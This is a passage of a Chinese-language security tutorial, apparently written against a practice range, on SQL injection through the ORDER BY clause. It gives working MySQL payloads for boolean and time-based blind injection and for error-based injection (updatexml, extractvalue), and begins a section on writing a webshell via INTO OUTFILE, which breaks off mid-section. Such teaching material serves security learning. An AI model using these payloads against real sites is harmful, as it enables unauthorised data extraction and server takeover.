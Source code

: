 order by注入
----------

`order by`的作用就不多说。  
学习了前面的`limit`我们知道，`order by`是位于`limit`关键字前面的，如果能够控制`order by`的位置，稍作改变就能变成limit注入了。

```php
?order=1 limit 0,1 PROCEDURE ANALYSE(UPDATEx ml(1,CONCAT(0x7e,(IF((ASCII(SUBSTR((SELECT 'abc'),1,1)))=97,BENCHMARK(5000000,SHA1(1)),1))),1),1)
```

[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-a1929eace11417c58ad0df5f732196332befc322.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-a1929eace11417c58ad0df5f732196332befc322.png)  
当然，order by位置的操作空间相较limit来说大一些。

### IF盲注

order by可以接`IF()`，这就非常nice。  
拿靶场题目来讲，前面知道了查询字段数为5，那么我们可以构造`IF(判别式,5,6)`，当执行为真时，页面返回正常，反之。  
那么就很常规了：`IF(ASCII(SUBSTR(($expr),1,1))=$x,5,6)`，这就回归到我们前面的布尔盲注了。  
当然还可以进行时间盲注：`IF(ASCII(SUBSTR(($expr),1,1))=$x,SLEEP(1),1)`，值得注意的是，延迟的时间会受结果数据集的影响，比如`SLEEP($x)`，则延迟时间为：`查询结果条数*$x`。

### 报错注入

同样的还可以利用`updatex ml`和`extractvalue`进行报错注入。  
`updatex ml(1,CONCAT(0x7e,(SELECT @@version)),1)`  
`extractvalue(1,CONCAT(0x7e,(SELECT @@version)))`  
[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-218a2cee5f234a1f54138437de34874b601a96c5.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-218a2cee5f234a1f54138437de34874b601a96c5.png)

union写入webshell
---------------

首先了解一下常见的写shell方法和原理。

常有的写shell方法有：

- into outfile写文件写shell
- log日志导出写shell

然后是写shell的条件：

- 网站绝对路径
- 目录写入权限

### into outfile写文件写shell

首先是确定权限  
`select file_priv,user,host from mysql.user;`  
`select @@secure_file_priv;`  
[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-406f2ffbdefa0136770caaa783e3167b974325a2.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-406f2ffbdefa0136770caaa783e3167b974325a2.png)  
如图可以看到，只有通过本地连接的root用户才有写文件的权限。  
然后就是`secure_file_priv`的值：
